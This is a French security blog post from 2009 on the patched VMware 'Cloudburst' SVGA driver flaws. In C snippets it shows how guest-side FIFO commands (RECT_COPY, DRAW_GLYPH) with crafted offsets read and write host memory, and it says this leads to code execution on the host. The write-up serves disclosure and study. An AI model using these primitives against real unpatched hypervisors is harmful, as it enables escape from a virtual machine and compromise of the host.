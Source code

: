 ```yaml
---
layout: post
title:  "VMWare Cloudburst suite"
date:   2009-09-14 19:48:00 +0100
categories: [security]
---
```

Un bref rappel:  
Les failles que je décris se situent dans le driver SVGA de VMWare ([patché depuis plusieurs mois](http://lists.vmware.com/pipermail/security-announce/2009/000055.html)). Nous pouvons interagir avec ce driver en écrivant des commandes dans la mémoire FIFO. (Si vous n’avez pas suivi allez voir le post précédent).

En fonction du fichier de configuration de votre VM et de la version de VMWare vous aurez accès ou non à certaines commandes. Je ne traiterai pas toutes les commandes. Pour jouer avec les requêtes 3D il vous faut ajouter à votre fichier de configuration: `mks.enable3d = “TRUE”`  
Les requêtes 3D ne sont pas documentées et la mémoire FIFO est utilisée comme couche de transport pour l’architecture SVGA3D utilisé par D3D. Je ne m'y suis pas frotté. On fera juste le tour des commandes `RECT_COPY` et `DRAW_GLYPH`, qui appartiennent aux requêtes 2D.

__I] Lecture mémoire relative.__

Pour pouvoir lire la mémoire de l'host on peut utiliser la commande `RECT_COPY`:
{% highlight C %}
#define SVGA_CMD_RECT_COPY  0x3
/* FIFO layout: Source X, Source Y, Dest X, Dest Y, Width, Height */

vmwareWriteWordToFIFO((PDWORD)VgaFifo, SVGA_CMD_RECT_COPY); // SURF_COPY
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x80000000-offset); // Source X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Source Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, offset); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x1); // Height
{% endhighlight %}

`Source X` prend comme paramètre des coordonnées en pixel. C’est-à-dire que si `SourceX` vaut 1 la copie s'effectuera avec un décalage de 4 bytes par rapport au début du frame buffer. Avec `0×80000000-offset`, on obtient donc un offset négatif. Pour que la commande `RECT_COPY` soit exécutée, il faut que deux conditions soit remplies: `SourceX>0` et `SourceX+Width<0` sachant que `SourceX+Width` est stockée dans une variable non signée. Dans notre code on aura `SourceX+Width = 0×80000000-offset+offset = -2147483647`. Pour dumper la mémoire après le frame buffer, il suffit de jouer avec les deux paramètres vu précédemment.
{% highlight C %}
vmwareWriteWordToFIFO((PDWORD)VgaFifo, SVGA_CMD_RECT_COPY); // SURF_COPY
vmwareWriteWordToFIFO((PDWORD)VgaFifo, offset); // Source X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Source Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x80000000-offset); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x1); // Height
{% endhighlight %}

__II] Lecture mémoire absolue.__

Le problème de `RECT_COPY` c'est que la lecture mémoire est relative. Si l'on essaye de copier une page mémoire de vmware-vmx qui n'existe pas, on crash le programme. Donc pour fiabiliser l'exploitation du bug il faut trouver où se situe le frame buffer du côté host. Sous un host vista, la page précédant le frame buffer contient l'adresse que nous recherchons. Sous xp c’est plus ardu, on peut retrouver l'adresse avec une commande 3D ou se risquer à utiliser la même méthode que pour un host vista. Mais il y a des risques de violation d'accès mémoire. Chez moi, la plupart de ces techniques fonctionnent (`VMWare player Build: 118166`) mais sur d'autres configurations cela est impossible.
{% highlight C %}
// Exemple pour vista
vmwareWriteWordToFIFO((PDWORD)VgaFifo, SVGA_CMD_RECT_COPY); // SURF_COPY
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x80000000 - 0x4); // Source X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Source Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x4); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x1); // Height
FBStartOnHost = VMWARE.FrameBuffer[2];

if(dest < FBStartOnHost) { // dest représente une adresse précise
  offset = (FBStartOnHost-dest)/4;
} else {
  offset = (dest-FBStartOnHost)/4;
}
{% endhighlight %}

Maintenant que l'on a retrouvé l'adresse du frame buffer, on peut lire précisément la mémoire de l'host. On peut donc par exemple récupérer le `PeHeader` de vmware-vmx (se situant toujours en 0×400000) pour avoir la version de VMWare et une vue précise des sections principales de l’exécutable code/data etc.

__III] Écriture en mémoire.__

On peut utiliser la commande `RECT_COPY` pour écraser la mémoire de l'host. Mais cette commande est mieux filtrée au niveau de la destination car dépendante des valeurs de `SVGA_REG_WIDTH` et `SVGA_REG_HEIGHT`. Donc on ne peut écraser seulement quelques Ko précédant le frame buffer. Sur ma version de VMWare, la zone mémoire modifiable correspond au `heap`. J’ai pensé récupérer le `TEB` se situant en `0x7FFDF000` pour ensuite exploiter un `heap overflow`. Mais à cette adresse, j'ai des valeurs ne correspondant pas à une structure de type `TEB`. Et un heap overflow n'est pas forcément une exploitation fiable surtout quand il est dépendant de deux valeurs qu'on ne peut ajuster comme on le désire.

J'ai dû me tourner vers la commande `DRAW_GLYPH` pour vérifier si elle est disponible:
{% highlight C %}
WRITE_PORT_ULONG((PULONG)(IOports+SVGA_INDEX_PORT), SVGA_REG_CAPABILITIES);
if(READ_PORT_ULONG((PULONG)(IOports+SVGA_VALUE_PORT)) & SVGA_CAP_GLYPH) DbgPrint("Glyph enable\");
{% endhighlight %}

Si ce n'est pas le cas il faut rajouter `svga.yesGlyphs=”TRUE”` dans votre fichier de configuration. Cette commande n'est absolument pas filtrée au niveau de la destination en X/Y, permettant ainsi d'écrire en mémoire où l'on veut. La taille minimale d'un glyph est de 32 pixels et il va écrire un seul pixel à l'offset `0×6` par rapport à `Destination X`. Il faut donc faire attention aux violations d'accès quand on écrit au bord d’une plage mémoire. Un petit exemple:
{% highlight C %}
// On va écrire 0xD34DB33F dans le premier DWORD du frame buffer.
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, SVGA_CMD_DRAW_GLYPH);
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x3FFFFFF9); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x20); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x1); // Height
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0xD34DB33F); // Valeur
{% endhighlight %}

On peut donc lire/écrire en mémoire de façon fiable. En résumé, le plus dur est de retrouver l'adresse du frame buffer sans crasher vmware-vmx. Il est ensuite possible d’outrepasser des protections telles que l'`ASLR` ou le `DEP` et créer un canal de communication dans une zone mémoire partagée entre le guest et l'host (le framme buffer par exemple) et exécuter du code. VMWare tournant en Administrateur/root et possédant le token `SeLoadDriverPrivilege` sous windows, au niveau de l'execution de code on peut tout faire!
